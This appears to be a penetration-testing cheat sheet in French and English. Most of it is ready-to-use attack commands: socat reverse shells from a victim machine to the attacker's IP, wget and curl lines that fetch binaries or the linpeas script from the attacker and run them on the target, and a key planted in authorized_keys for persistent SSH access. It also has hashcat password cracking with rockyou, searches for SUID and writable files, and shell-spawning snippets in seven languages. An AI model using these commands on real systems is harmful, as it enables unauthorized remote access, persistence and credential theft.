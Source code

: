 # Dans un reverse shell

## Upgrade a reverse shell to a fully TTY interactive shell

Sometimes we will get a shell but it won't be very convenient. There are some ways to upgrade your shells to interactive TTY reverse shell
if you want a quick dirty little fix but not completely interactive this python command works well for python3
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

## With socat
`socat file:`tty`,raw,echo=0 tcp-listen:4440` on your kali
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440` from the victime machine

If socat is not installed see here for static binaries
`wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440`
OR
`wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat` in your kali then put on your python3 webserver
and then **wget -q http://YOUR-KALI-IP/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR-KALI-IP:4440**

## Pour avoir un accès ssh

```bash
ssh-keygen -f mykey
# No passphrase
mykey & mykey.pub
mv mykey.pub ~/.ssh/authorized_keys
# Copy mykey to local machine in the .ssh folder
nano mykey # and paste the private key
sudo chmod 600 mykey

ssh -i mykey user@ip
```


# Détecter un hash 

```bash
hashcat hashPWD.txt rockyou.txt

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
    900 | MD4                                                 | Raw Hash
      0 | MD5                                                 | Raw Hash
     70 | md5(utf16le($pass))                                 | Raw Hash
   2600 | md5(md5($pass))                                     | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                    | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))             | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                         | Raw Hash salted and/or iterated
   1000 | NTLM                                                | Operating System
   9900 | Radmin2                                             | Operating System
   8600 | Lotus Notes/Domino 5                                | Enterprise Application Software (EAS)


```

Puis sélectionner le # de l'algo de hashage
Exemple avec RAW MD5
```bash
hashcat -m 0 hashPWD.txt rockyou.txt
```

# Privilege Escalation

## Linux

`sudo -l`

`python -m http.server 80 -> curl mon_ip/linpeas.sh | sh`

`find / -type f -perm -04000 -ls 2>/dev/null`
`find / -perm -4000 2>/dev/null`
`find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null`


```py
import subprocess
subprocess.call("/bin/sh")
```
```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```cpp
#include <cstdlib>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```rust
use std::process::Command;

fn main() {
    Command::new("/bin/sh")
        .status()
        .expect("Failed to execute command");
}
```
```go
package main

import (
	"os"
	"os/exec"
)

func main() {
	cmd := exec.Command("/bin/sh")
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr
	cmd.Run()
}
```
```java
import java.io.IOException;

public class Main {
    public static void main(String[] args) {
        try {
            Process process = new ProcessBuilder("/bin/sh").inheritIO().start();
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```
